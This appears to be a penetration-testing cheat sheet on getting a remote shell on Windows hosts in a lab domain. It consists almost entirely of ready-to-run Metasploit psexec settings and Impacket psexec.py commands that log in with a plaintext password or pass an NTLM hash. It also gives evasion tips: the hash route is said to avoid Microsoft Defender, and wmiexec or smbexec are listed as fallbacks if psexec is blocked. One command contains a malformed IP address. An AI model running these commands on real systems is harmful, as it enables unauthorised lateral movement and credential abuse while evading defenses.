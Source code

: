 # Gaining Shell Access with MSFconsole

## Usage

- use MSFCONSOLE: exploit/windows/smb/psexec
```bash
msfconsole
search exploit/windows/smb/psexec
use 0
```
### Using a Password

```bash
options
set RHOSTS 192.168.70.138
set SMBDomain MARVEL.local
set SMBUser fcastle
set SMBPass Password1
run
```

### Using a hash

```bash
unset smbdomain
set RHOSTS 192.168.70.138
set SMBUser administrator
set SMBPass ad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
run
```
# Gaining Shell Access manually
## Usage

### Using a Password

- run psexec.py
```bash
psexec.py MARVEL/fcastle:'Password1'@192.168.70.138
```

- In case of weird passwords:
```bash
psexec.py MARVEL/fcastle:@192.168.70.138
# Input Password now
Password1
```

## Using a hash (not detected by MicrosoftDefender)

```bash
psexec.py administrator@1982.168.70.138 -hashes ad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```

# Notes:

- if "psexec.py" is getting blocked try "wmiexec.py" or "smbexec.py"
- depending on settings some might work and others not